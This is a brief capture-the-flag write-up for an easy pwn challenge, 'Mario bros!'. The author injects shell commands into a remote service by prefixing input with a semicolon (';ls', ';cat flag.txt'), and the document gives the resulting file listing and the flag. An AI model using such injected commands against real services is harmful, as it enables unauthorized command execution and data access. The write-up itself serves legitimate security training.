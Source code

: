 # EZ CTF

## Pwn

### Mario bros!

**Difficulty:** Easy

**Statement:** Read the flag!  

***

For this challenge, you need to connect to the remote server on port 7777.

Once connected, we are on a shell with the return command `Are you root?

Sending a single value or command closes the shell and the connection to the server.

So I'm just trying to add a `;` to inject a command: `;ls`

```
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
```

I just have to read the content of the file **flag.txt**: `;cat flag.txt`

```
EZ-CTF{UNSECUR3_B4SH}
```

Flag: EZ-CTF{UNSECUR3_B4SH}
